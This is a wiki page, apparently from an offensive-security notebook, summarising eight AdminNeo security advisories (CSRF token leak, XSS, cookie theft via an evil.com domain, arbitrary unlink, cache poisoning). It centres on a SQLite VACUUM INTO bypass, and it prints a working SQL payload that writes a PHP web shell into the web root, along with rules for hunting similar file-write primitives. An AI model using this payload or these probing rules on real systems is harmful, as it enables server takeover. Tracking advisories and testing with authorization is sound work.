

repository: bastet-ai/skillz-wiki · page: alerts/2026-10-30-adminneo-coordinated-wave-attach-blocklist-bypass-token-self-disclosure-and-nonce-carrying-xss-ghsa/index.html · generator: mkdocs

---
title: AdminNeo coordinated wave, ATTACH blocklist bypass to web shell, token self-disclosure, nonce-carrying XSS, and the follow-up-fix family
---

# AdminNeo coordinated wave, ATTACH blocklist bypass to web shell, token self-disclosure…

Source: hourly offensive-security scan of GitHub Security Advisories, 2026-11-06 (catch-up over the Oct 28 - Nov 6 gap; eight advisories published 2026-10-30T18:53Z-22:53Z, all fixed in AdminNeo 5.5.1).

AdminNeo is the maintained fork of Adminer, which makes this wave doubly valuable as an operator map, because almost every leg explicitly credits an earlier Adminer advisory it re-introduces or bypasses. **A fork is a snapshot of its upstream's bug history; re-run the upstream's whole advisory corpus against the fork.** Every advisory below links its Adminer predecessor GHSA, collect the pair and diff the fix.

## Advisory table

| GHSA | CVE | Severity | Leg |
| --- | --- | --- | --- |
| [GHSA-q5mp-gfjf-cf2j](https://github.com/advisories/GHSA-q5mp-gfjf-cf2j) | [CVE-2026-96630](https://nvd.nist.gov/vuln/detail/CVE-2026-96630) | high | SQLite `VACUUM INTO` writes a web shell past the `ATTACH` blocklist |
| [GHSA-p96f-p2p2-2g3h](https://github.com/advisories/GHSA-p96f-p2p2-2g3h) | [CVE-2026-96634](https://nvd.nist.gov/vuln/detail/CVE-2026-96634) | moderate | catastrophic backtracking in the `$space*+ATTACH\b` regex = ReDoS-shaped blocklist bypass of CVE-2021-43008's fix |
| [GHSA-wm25-49w3-5qrg](https://github.com/advisories/GHSA-wm25-49w3-5qrg) | [CVE-2026-96629](https://nvd.nist.gov/vuln/detail/CVE-2026-96629) | moderate | CSRF token transmits mask and masked value in one string; session secret ~20 bits |
| [GHSA-rx7m-wxwq-vxr9](https://github.com/advisories/GHSA-rx7m-wxwq-vxr9) | [CVE-2026-96632](https://nvd.nist.gov/vuln/detail/CVE-2026-96632) | high | rogue MySQL server version string breaks out of a **nonce-carrying** `<script>` tag |
| [GHSA-79wv-8rh2-9vp2](https://github.com/advisories/GHSA-79wv-8rh2-9vp2) | [CVE-2026-96631](https://nvd.nist.gov/vuln/detail/CVE-2026-96631) | high | unsanitized `X-Forwarded-Prefix` prepended to `REQUEST_URI`, later echoed raw into hand-built `Set-Cookie` headers = `Domain=.evil.com` cookie theft |
| [GHSA-6vfx-w7q3-42gq](https://github.com/advisories/GHSA-6vfx-w7q3-42gq) | [CVE-2026-96633](https://nvd.nist.gov/vuln/detail/CVE-2026-96633) | high | database-list drop action `unlink()`s arbitrary paths, skipping the extension check create/rename enforce |
| [GHSA-jm85-8cpp-9cjc](https://github.com/advisories/GHSA-jm85-8cpp-9cjc) | [CVE-2026-59978](https://nvd.nist.gov/vuln/detail/CVE-2026-59978) | high | unauthenticated POST `version[]` array poisons the shared version cache with a type that 500s the whole UI for 24 h |
| [GHSA-q4f2-39gr-45jh (upstream anchor)](https://github.com/vrana/adminer/security/advisories) |, |, | Adminer predecessor corpus this fork re-inherits |

## The VACUUM INTO leg is the headline: function-neighborhood enumeration beats denylists

The `ATTACH` blocklist (the fix for the 2021 PHP-file-creation advisory) is a one-word denylist on the SQL statement head. SQLite's `VACUUM INTO '<path>'`, available since 3.27.0, does the same thing (writes an attacker-influenced database file to an arbitrary absolute path with an arbitrary extension) and is not on the list. The published chain, valid for any authenticated SQLite user:

```sql
CREATE TABLE "<?php system($_GET['c']); ?>" (i int);
VACUUM INTO '/var/www/html/shell.php';
```

The table name is attacker-chosen bytes stored verbatim in the file; PHP's parser finds the `<?php` block wherever it sits. This is the same **SQL-write-primitive to web-root** family the wiki tracks (MCP URI-to-SQL, July 10 page; AdminNeo is the cleanest single-request instance of it: no multi-hop, the file *is* the shell).

Operator rules:

1. **Blocklist-of-one → enumerate the function neighborhood.** Whenever a SQL guard denies named statements (`ATTACH`, `LOAD_FILE`, `INTO OUTFILE`), list every other statement/pragma in that engine that writes a file: `VACUUM INTO`, `ATTACH DATABASE`, `DETACH`, `.backup`, FTS virtual-table create with content tables, `readfile()`/`writefile()` CLI helpers, `COPY ... TO PROGRAM`. The guard names the author's mental model; the engine's grammar is the attack surface.
2. **Every file-write primitive needs a co-located injection carrier.** `VACUUM INTO` writes controlled bytes (the schema text), pair the traversal probe with the byte-carrier probe. The pair (write-where + write-what) is the finding; either alone is a half.
3. **Registry-of-known-shells probe:** on any authorized assessment of a DB admin panel behind SQLite, one request of `CREATE TABLE '<marker>'; VACUUM INTO '<webroot-writable path>'`, bounded to paths the web user owns, settles whether the primitive exists. Fingerprint AdminNeo/Adminer versions from the login page footer.
